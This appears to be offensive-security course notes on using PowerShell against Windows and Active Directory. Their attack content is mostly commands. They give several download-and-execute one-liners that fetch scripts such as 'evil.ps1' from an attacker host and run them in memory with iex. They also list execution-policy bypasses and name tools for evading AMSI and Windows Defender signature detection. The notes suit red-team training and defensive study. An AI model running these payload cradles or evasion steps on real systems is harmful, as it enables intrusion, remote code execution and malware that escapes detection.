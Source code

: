- Provides access to almost everything in a Windows platform and Active Directory Environment which could be useful for an attacker.
- Provides the capability of running powerful scripts completely from memory making it ideal for foothold shells/boxes.
- Based on .NET framework and is tightly integrated with Windows.
- PowerShell is NOT powershell.exe. It is the System.Management.Automation.dll
- We will use Windows PowerShell. There is a platform independent PowerShell Core as well.

# Scripts and modules

• Load a PowerShell script using dot sourcing:
```powershell
. C:\AD\Tools\PowerView.ps1
```

- A module (or a script) can be imported with:
```powershell
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

- All the commands in a module can be listed with:
```powershell
Get-Command -Module <modulename>
```

# Script execution

- Directly from http server:
```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
```

```powershell
iex (iwr 'http://192.168.230.1/evil.ps1')
```
> Only from *PSv3* towards.

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;
$h.open('GET','http://192.168.230.1/evil.ps1',$false);
$h.send();
iex $h.responseText
```

```powershell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
iex ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

- Using Internet Explorer:
```powershell
$ie=New-Object -ComObject InternetExplorer.Application;
$ie.visible=$False;
$ie.navigate('http://192.168.230.1/evil.ps1');
sleep 5;
$response=$ie.Document.body.innerHTML;
$ie.quit();
iex $response
```

# Execution policy

```powershell
powershell -ep bypass
```

It is NOT a security measure, it is present to prevent user from accidently executing scripts.

Several ways to bypass:
```powershell
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

# Bypassing PowerShell Security

We will use [[Invisi-Shell]] (https://github.com/OmerYa/Invisi-Shell) for bypassing the security controls in PowerShell.

# Bypassing Anti Virus Signatures for PowerShell

We can always load scripts in memory and avoid detection using AMSI bypass. How do we bypass signature based detection of on-disk PowerShell scripts by Windows Defender?

- We can use the *AMSITrigger* (https://github.com/RythmStick/AMSITrigger) tool to identify the exact part of a script that is detected.
- We can use *DefenderCheck* (https://github.com/t3hbb/DefenderCheck) to identify code and strings from a binary / file that Windows Defender may flag.

Simply provide path to the script file to scan it:
```powershell
AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1
DefenderCheck.exe PowerUp.ps1
```

For full obfuscation of PowerShell scripts, see Invoke-Obfuscation (https://github.com/danielbohannon/Invoke-Obfuscation). That is used for obfuscating the AMSI bypass in the course!